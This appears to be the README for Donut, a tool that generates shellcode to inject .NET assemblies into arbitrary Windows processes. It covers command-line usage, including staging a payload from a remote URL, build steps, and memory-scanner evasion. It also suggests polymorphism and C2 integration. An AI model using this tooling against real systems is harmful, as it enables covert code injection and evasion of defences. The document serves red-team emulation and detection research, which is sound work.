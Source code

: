 # Using Donut

![Alt text](https://github.com/TheWover/donut/blob/master/img/donut.PNG?raw=true "General Usage")                                                                                                               
 
Donut is a shellcode generation tool that creates x86 or x64 shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes. Given an arbitrary .NET Assembly, parameters, and an entry point (such as Program.Main), it produces position-independent shellcode that loads it from memory. The .NET Assembly can either be staged from a URL or stageless by being embedded directly in the shellcode. Either way, the .NET Assembly is encrypted with the Chaskey block cipher and a 128-bit randomly generated key. After the Assembly is loaded through the CLR, the original reference is erased from memory to deter memory scanners. The Assembly is loaded into a new Application Domain to allow for running Assemblies in disposable AppDomains.

It can be used in several ways.

## As a Standalone Tool

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```

  usage: donut [options] -f <.NET assembly> | -u <URL hosting donut module>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
       -r <version>         CLR runtime version. v4.0.30319 is used by default.
       -d <name>            AppDomain name to create for assembly. Randomly generated by default.

 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/

```

## As a Library

donut is provided in *.dll* and *.lib* format to be used as a library. It has a simple API that is described in *api.html*. Several exported functions are provided, including ``` int CreatePayload(PDONUT_CONFIG c) ```. They all use the PDONUT_CONFIG struct as input.

## As a Template

Part of why donut was published was to provide a template for custom shellcode generators. Since all of the logic for the shellcode is defined in *payload.c*, that logic can be customized by simply changing the *payload* source code. Once the source code is changed, use the provided makefile to rebuild *payload.exe* using any of the following options

```
make x86
make x64
make debug
make clean
```

Once the new version of *payload.exe* is built, its executable code must be extracted. This can be done with *xbin.exe*. To extract the code, run the command below:

```
xbin.exe payload.exe .text
```

This will create payload.exeXX.bin where "XX" is either 32 or 64 depending on the build environment. This should be converted to a C array and placed in payload_x86.h with the label PAYLOAD_X86 or payload_x64.h with the label PAYLOAD_X64. This stub represents the shellcode component loads the .NET Assembly. When *donut* is used, it will combine this .bin file with the Assembly to produce the usable shellcode.

Additional features are left as exercises to the reader. I would personally recommend:

* Add environmental keying
* Make donut polymorphic by obfuscating *payload* every time shellcode is generated
* Integrate donut as a module into your favorite RAT/C2 Framework

## Disclaimers

* No, we will not update donut to counter signatures or detections by any AV.
* We are not responsible for any misuse of this software or technique. Donut is provided as a demonstration of CLR Injection through shellcode in order to provide red teamers a way to emulate adversaries and defenders a frame of reference for building analytics and mitigations. This inevitably runs the risk of malware authors and threat actors misusing it. However, we believe that the net benefit outweighs the risk. Hopefully that is correct.

# How it works

## Procedure

Donut uses the Unmanaged CLR Hosting API to load the Common Language Runtime. If necessary, the Assembly is downloaded into memory. Either way, it is decrypted. Once the CLR is loaded into the host process, an AppDomain is prepared. A new AppDomain will be created. Once the AppDomain is ready, the .NET Assembly is loaded through AppDomain.Load_3. Finally, the Entry Point specified by the user is invoked with any specified parameters.

The logic above describes how the shellcode generated by donut works. That logic is defined in *payload.exe*. To get the shellcode, *xbin.exe* extracts the compiled machine code from *.text* in *payload.exe* and saves it to *payload.bin*. *donut.exe* uses that extracted shellcode, and combines it with a Donut Instance ( a struct wrapper for the Assembly) and a Donut Module (a struct containing the config for the shellcode). The Instance and Module are referred to using offsets rather than stored on the stack. This ensures that the shellcode may be used with any injection technique without setting up the stack manually or using an API call in the CreateThread family.

Refer to MSDN for documentation on the Undocumented CLR Hosting API: https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

For a standalone example of a CLR Host, refer to Casey Smith's AssemblyLoader repo: https://github.com/caseysmithrc/AssemblyLoader

## Components

Donut contains the following elements:

* donut.c: The source code for the donut payload generator
* donut.exe: The compiled payload generator as an EXE
* donut.py: The donut payload generator as a Python script
* lib/donut.dll, lib/donut.lib: Donut as a library for use in other projects on Windows
* lib/donut.so, lib/donut.a: Donut as a library for use in other projects on Linux
* payload/payload.c: The source code for the shellcode
* payload/payload.exe: The compiled payload. The shellcode is extracted from this binary file.
* payload/xbin.cpp: Source code for xbin
* payload/xbin.exe: Extracts the useful machine code from payload.exe so that it may be used as shellcode
* encrypt.c: Provides the source code the encryption
* DemoCreateProcess/Class1.cs: An example .NET Assembly. It starts two processes.

# Subprojects

There are three companion projects provided with donut:

* DonutTest: A simple C# shellcode injector to use in testing donut. The shellcode must be base64 encoded and copied in as a string. 
* ProcessManager: A Process Discovery tool that offensive operators may use to determine what to inject into and defensive operators may use to determine what is running, what properties those processes have, and whether or not they have the CLR loaded. 
* ModuleMonitor: A proof-of-concept tool that detects CLR injection as it is done by tools such as donut and Cobalt Strike's execute-assembly.

# Project plan

Current goal: Beat the other team to publication! ;-)

* ~~Add the option to load the .NET Assembly into a new Application Domain rather than DefaultDomain~~
* ~~After the Assembly is loaded into the AppDomain (but before it is run), randomize the bytes for the decrypted Assembly and free them. This is to prevent memory scanners from picking up the presence of a DLL in the incorrect part of memory.~~
* Create a donut Python C extension that allows users to write Python programs that can use the donut API programmatically. It would be written in C, but exposed as a Python module.
* Create a donut.py generator that uses the same command-line parameters as donut.exe
* ~~Clean up the code. Remove code that is not used. Ensure code is internally documented.~~
* Add a section to the Readme on building from source
* At the time of release, create a Tag for the release that has a ZIP with the compiled code and another with the source for easy distribution. Label it v1.0
* Write documentation with enough detail for users to use donut as a library/API, and for them to use it as operators trying to quickly generate shellcode for one-time use. (this is mostly already done)
* Odzhan write a blog post on the technical implementation of donut and its API. TheWover write a blog post on how to use this as an operator, how it affects red team tradecraft, and potential detection mechanisms for the technique.
